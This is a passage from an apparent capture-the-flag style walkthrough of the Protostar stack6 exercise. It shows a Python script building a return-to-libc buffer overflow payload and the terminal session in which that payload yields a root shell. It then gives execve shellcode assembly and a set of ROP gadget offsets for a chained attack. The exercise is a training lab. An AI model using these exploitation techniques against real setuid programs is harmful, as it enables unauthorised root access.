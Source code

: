So how would our input look like? This is a Python script that prints out our input.
```
padding = '\x61' * 80
return_addr = '\xb0\xff\xec\xb7'
more_padding = '\x61\x61\x61\x61'
addr_of_sh = '\xbf\x63\xfb\xb7'
print padding+return_addr+more_padding+addr_of_sh
```
Let me explain what the purpose of `more_padding` is. Recall that before you call a function (called the 'callee'), you would push the arguments to the stack. That means that the callee's arguments would be a return address away from the callee's stack frame. Hence, to pass the argument `'/bin/sh'` to the callee function `__libc_system`, we need to simulate a return address in between the 2. We can ignore the `ebp` of the caller function because the callee function is that one that pushes it to the stack, so it takes that into account when accessing its arguments.

![stack_frame_pic](https://y86tutoring.files.wordpress.com/2012/10/caller-callee.png)

With that input, we get ourselves a root shell.
```
user@protostar:/opt/protostar/bin$ python /home/user/stack6.py > ~/input\ stack6
user@protostar:/opt/protostar/bin$ cat ~/input\ stack6 - | ./stack6 
input path please: got path aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa����aaaaaaaaaaaa����aaaa�c��
whoami
root
```

In case you are wondering how we got a root shell, `stack6` is a setuid program owned by `root`. So our EUID is `root`, so is the EUID of all child processes of the `stack6` program. That's how we got the root shell.

### Return Oriented Programming

>In this technique, an attacker gains control of the call stack to hijack program control flow and then executes carefully chosen machine instruction sequences that are already present in the machine's memory, called "gadgets". Each gadget typically ends in a return instruction and is located in a subroutine within the existing program and/or shared library code. Chained together, these gadgets allow an attacker to perform arbitrary operations on a machine employing defenses that thwart simpler attacks.

The clues given in the exploit-exercises website tells us we can also use Return Oriented Programming.

Before we search for ROP gadgets, let's take a moment to think about how our shellcode would look like if we were able to execute it in the stack. It basically executes `execve('/bin/sh')`.

```
mov eax, 0xb		; syscall reference for execve
mov ebx, 0xb7fb63bf	; address of string '/bin/sh'
xor ecx, ecx
xor edx, edx
int 0x80
```

I headed to [ropshell](http://ropshell.com) to find ROP gadgets that behave similarly to each line of assembly in our shellcode above. This are 4 ROP gadgets we can chain together to execute `execve('/bin/sh')`.
```
> 0x000cebe0 : pop ecx; pop eax; ret
> 0x00074886 : pop ebx; ret
> 0x0002a2fc : pop edx; ret
> 0x00097bf5 : int 0x80; ret
```
Because `libc-2.11.2.so` is mapped to a different virtual memory address, we have to take into account its new address, which is `0xb7e97000` and add the offset of the ROP gadgets to it to get their addresses in `stack6`.
